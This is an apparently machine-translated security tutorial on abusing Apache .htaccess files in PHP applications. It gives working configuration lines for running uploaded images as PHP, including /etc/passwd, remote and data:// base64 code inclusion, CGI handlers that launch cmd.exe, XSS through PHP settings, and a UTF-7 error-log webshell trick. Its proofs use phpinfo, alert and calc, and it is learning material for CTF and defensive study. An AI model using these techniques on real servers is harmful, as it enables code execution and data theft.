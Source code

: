 # PHP safe learning—htaccess

Author: H3rmesk1t

Data: 2021.05.08

# File parsing

> There is no limit on the blacklist that often appears on file uploads. By uploading the .htaccess file and then uploading the picture, the php malicious code of the picture can be parsed and executed.
>.htaccess file contents are as follows

```php
(1)SetHandler instruction

# Execute images.png as PHP
<FilesMatch "images.png">
SetHandler application/x-httpd-php
</FilesMatch>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508200510679.png#pic_center)

```php
(2)AddType

# Parse .jpg(.xxx) as PHP file
AddType application/x-httpd-php .jpg(.xxx)
```
# File contains

> Local files contain
> Set the auto_prepend_file or auto_append_file configuration option through php_value to include some sensitive files, and a parsable php file is required in this directory or subdirectory to trigger it.
>.htaccess uses these two configuration options to include /etc/passwd, and access the index.php file in the same directory.

```php
auto_prepend_file

php_value auto_prepend_file /etc/passwd
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508200805649.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
auto_append_file

php_value auto_append_file /etc/passwd
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508200840738.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

> Remote file contains
> PHP's all_url_include configuration option This option is turned off by default and can be included remotely if it is turned on. Because the configuration scope of all_url_include is PHP_INI_SYSTEM, it is impossible to use php_flag to enable it in .htaccess

```php
php_value auto_append_file http://10.87.9.156/phpinfo.txt
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508201049583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# Source code leak
> Use php_flag to set engine to 0, turn off php parsing in this directory and subdirectories, causing source code leakage

```php
php_flag engine 0
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508201211904.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Code execution
> (1) Utilize pseudo-protocol
all_url_fopen, all_url_include is On
> (2) Analysis.htaccess

```php
(1)
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508202342125.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
(2.1)
php_value auto_append_file .htaccess
#<?php phpinfo();
(2.2)
This is suitable for the same directory or subdirectories without php files.
You need to set first to allow access to .htaccess files

Files ~ "^.ht">
 Require all granted
 Order allows,deny
 Allow from all
</Files>

Specify .htaccess as a php file

SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508202453546.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508202507264.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Command execution

> CGI Startup

```php
cgi_module needs to be loaded, that is, there is apache configuration file

LoadModule cgi_module modules/mod_cgi.so
.htaccess content

Options ExecCGI #Allow CGI execution
AddHandler cgi-script .xx #Parse files with xx suffix as CGI programs
ce.xx

#!C:/Windows/System32/cmd.exe /k start calc.exe
6
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508202654764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
[Reference example](https://github.com/De1ta-team/De1CTF2020/tree/master/writeup/web/check%20in)

> FastCGI Startup

```php
mod_fcgid.so needs to be loaded. That is, there is

LoadModule fcgid_module modules/mod_fcgid.so
.htaccess

Options +ExecCGI
AddHandler fcgid-script .xx
FcgidWrapper "C:/Windows/System32/cmd.exe /k start calc.exe" .xx

ce.xx content is free
```
![Insert the image description here](https://img-blog.csdnimg.cn/20210508202946968.png?x-oss-process=image/watermark,type_ZmFu
Z3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# XSS

> highlight_file

```php
.htaccess
php_value highlight.comment '"><script>alert(1);</script>'

index.php
<?php
highlight_file(__FILE__);
// comment

The highlight.comment can also be replaced with the following other options
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508203146944.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

> Error message link

```php
index.php:
<?php
include('foo');#foo reported an error

.htaccess
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'><script>alert(1);</script>"
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508203246789.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Customize the error file

```php
error.php
<?php include('shell');# error page

.htaccess
php_value error_log /tmp/www/html/shell.php
php_value include_path "<?php phpinfo(); __halt_compiler();"

Visiting error.php will report an error and record it in the shell.php file.
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210508203403849.png#pic_center)

```php
Because it will be encoded by html, UTF-7 is needed to bypass it.

.htaccess

# first
php_value error_log /tmp/shell #Define the error path
#--- "<?php phpinfo(); __halt_compiler();" in UTF-7:
php_value include_path "+ADw?php phpinfo()+ADs +AF8AXw-halt+AF8-compiler()+ADs"

# The second time
php_value include_path "/tmp" #Change the default path of include()
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```
[Reference example](https://www.cnblogs.com/tr1ple/p/11439994.html)
